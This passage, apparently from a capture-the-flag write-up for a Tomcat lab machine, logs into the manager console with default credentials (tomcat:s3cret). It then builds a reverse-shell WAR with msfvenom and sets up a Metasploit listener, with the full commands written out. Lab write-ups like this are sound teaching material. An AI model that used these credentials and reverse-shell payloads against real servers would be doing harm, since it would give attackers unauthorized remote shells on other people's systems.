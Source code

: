 We can see from the SSH banner that the target is using `Ubuntu Linux` OS.

From there, I visited the web server at port `8080`, and found the default page for Apache Tomcat.

![home page](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/thm-writeup-thompson/image.png)

Then I visited the `manager` page, and it required authentication. When I clicked `cancel`, the `401 Unauthorized` page showed up, and it had some interesting information:

![manager app](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/thm-writeup-thompson/image-1.png)

![401 Unauthorized page](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/thm-writeup-thompson/image-2.png)

As you see, the page showed a message with an example that contains - one of - the default credentials for the manager account (`tomcat:s3cret`). I tried to login with these credentials, and it worked! We could do some brute-forcing here with the known default credentials, but we don't need to do that now. [This page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat) has a list of default credentials for Apache Tomcat. Besides, it will be a good reference later in this writeup.

![manager web page](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/thm-writeup-thompson/image-3.png)

## 3. Exploitation - Getting a Foothold

Looking at the manager console, I found a section called `WAR file to deploy`. I did some research on how to exploit this, and I found many ways to do this, one of them is using a `Metasploit module` that can help us with this. The module is `exploit/multi/http/tomcat_mgr_upload`. More information about the different ways to do this can be found [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#rce).

I decided to do this using `msfvenom`, in which I generated a reverse shell `.war` file with the payload `java/jsp_shell_reverse_tcp`. The command I used is:

``` bash
┌──(0xcyb3rw0lf㉿0xcyb3rw0lf)-[~/Desktop/THM/Thompson]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.17.0.212 LPORT=1337 -f war > exploit.war                       
Payload size: 1108 bytes
Final size of war file: 1108 bytes
```

Then I went to `msfconsole` to run the listener:

``` bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LHOST 10.17.0.212
LHOST => 10.17.0.212
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
msf6 exploit(multi/handler) > run
```
